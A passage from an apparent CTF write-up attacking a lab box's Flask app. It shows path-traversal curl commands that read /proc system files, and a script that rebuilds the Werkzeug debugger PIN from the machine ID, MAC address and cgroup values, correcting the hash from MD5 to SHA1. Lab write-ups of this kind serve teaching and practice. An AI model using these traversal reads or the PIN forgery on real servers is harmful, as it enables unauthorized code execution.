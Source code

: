             if linux:
                return linux
    
            # On OS X, use ioreg to get the computer's serial number.
            try:
    ...[snip]...
    

It starts with an empty string, and then tried to append both the contents of
`/etc/machine-id` and `/proc/sys/kernel/random/boot_id`. Then there’s a
section on containers so it tries to append part of `/proc/self/cgroup`.

`/etc/machine-id` isn’t found, but the other two are:

    
    
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --ignore-content-length 
    a97273a3-1bd3-4436-91ae-ab0973b75d73
    oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//proc/self/cgroup --ignore-content-length 
    12:hugetlb:/docker/0b91b5646d729be7c8657d19a6140c946b56fe35bd7cd0e10d2d18ecea9d81c8
    ...[snip]...
    

From the second file there, I need only the first line, from the last `/` to
the end. The script is now set up:

    
    
    ...[snip]...
    probably_public_bits = [
        'root',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]
    
    private_bits = [
        '2485377892360',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'a97273a3-1bd3-4436-91ae-ab0973b75d730b91b5646d729be7c8657d19a6140c946b56fe35bd7cd0e10d2d18ecea9d81c8'# get_machine_id(), /etc/machine-id
    ]
    ...[snip]...
    

Unfortunately, the resulting PIN doesn’t work.

#### Hash Type

The script is creating a MD5 hash object, and adding pieces from above one by
one to the hash. If I look more closely at the code from OpenSource, it’s
doing the same thing, but using SHA1, not using MD5:

    
    
    ...[snip]...
    	h = hashlib.sha1()
        for bit in chain(probably_public_bits, private_bits):
            if not bit:
                continue
            if isinstance(bit, str):
                bit = bit.encode("utf-8")
            h.update(bit)
        h.update(b"cookiesalt")
    